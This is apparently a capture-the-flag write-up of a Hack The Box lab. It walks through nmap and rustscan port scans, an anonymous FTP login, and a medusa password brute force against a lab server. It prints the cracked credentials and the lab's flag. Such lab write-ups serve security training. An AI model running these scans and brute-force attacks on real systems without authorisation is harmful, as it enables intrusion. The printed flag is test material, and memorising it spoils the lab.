





# Attacking Common Services - Medium

This lab is an internal server that manages and stores emails and files and serves as a backup of some of the company's processes.

## Approach
First, I performed a Nmap scan on the running services on the target.
```bash
nmap -sV -sC 10.129.201.127
```
<br>
From the results, the following services are running on the machine:
- SSH on port 22
- DNS on port 53
- POP3/s on port 110 and 995
- FTP on port 2121

All of these services does not seem to reveal anything crucial. So, I used `rustscan` to quickly scan for open ports.
```bash
rustscan -a 10.129.201.127 -r 1-65535
```
We see that there is another unusual open port, 30021.
```bash
nmap -sV -sC 10.129.201.127 -p 30021
```
<br>
We see that it is another FTP server that allows anonymous login!
```bash
ftp -P 30021 10.129.201.127		## username "anonymous", password ""
```
Through some enumeration, I found `mynotes.txt`, which could potentially help us.<br>
<br>

`mynotes.txt` seems to contain possible credentials for a particular service and user.


Since it was located under the "simon" directory, a possible username could be `simon`. Hence, I used `medusa` to brute force the FTP service on port 2121.
```bash
medusa -u simon -P mynotes.txt -h 10.129.201.127 -M ftp -n 2121 -f
```
With this, I found a valid set of credentials, `simon:8Ns8j1b!23hs4921smHzwn`.

Then, I logged onto the FTP service on port 2121 with the credentials and found the flag.


The flag is `HTB{1qay2wsx3EDC4rfv_M3D1UM}`.